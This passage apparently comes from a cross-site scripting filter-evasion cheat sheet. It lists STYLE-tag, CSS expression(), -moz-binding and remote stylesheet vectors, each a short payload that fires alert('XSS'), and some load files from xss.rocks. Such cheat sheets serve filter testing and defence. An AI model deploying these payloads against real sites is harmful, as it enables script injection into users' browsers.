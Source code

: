 ~~~
<META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">
~~~

#### Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page.

~~~
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
~~~

#### STYLE tags with broken up JavaScript for XSS

~~~
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
~~~

#### STYLE attribute using a comment to break up expression

Created by Roman Ivanov

~~~
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
~~~

#### IMG STYLE with expression

This is really a hybrid of the above XSS vectors, but it really does show how hard STYLE tags can be to parse apart, like above this can send IE into a loop:

~~~
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
~~~

#### STYLE tag using background-image

~~~
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
~~~

#### STYLE tag using background

<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>


#### Anonymous HTML with STYLE attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if the HTML tag you build exists or not, as long as it starts with an open angle bracket and a letter:

~~~
<XSS STYLE="xss:expression(alert('XSS'))">
~~~




### US-ASCII encoding
